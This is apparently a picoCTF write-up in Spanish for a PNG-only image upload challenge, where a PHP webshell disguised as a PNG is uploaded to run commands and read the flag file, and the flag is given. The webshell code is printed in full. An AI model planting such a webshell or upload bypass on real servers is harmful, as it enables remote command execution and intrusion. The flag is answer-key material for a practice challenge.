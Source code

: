 #### Descripción

I found a web app that can help process images: PNG images only!

#### Solución 
Para esta bandera, nos lleva a una pagina que solo puede subirse archivos PNG, intentamos otros archivos y no deja, entonces lo que hacemos es enviar un archivo que solo en fachada es un PNG, pero en verdad es una webshell:

```
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```
Con esta webshell podemos acceder a la consola y ver los documentos que tiene, ahi vemos que tiene un documento que se llama: `G4ZTCOJYMJSDS.txt` y en este documento se encuentra la flag.
`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}`

#### Notas Adicionales

#### Referencias
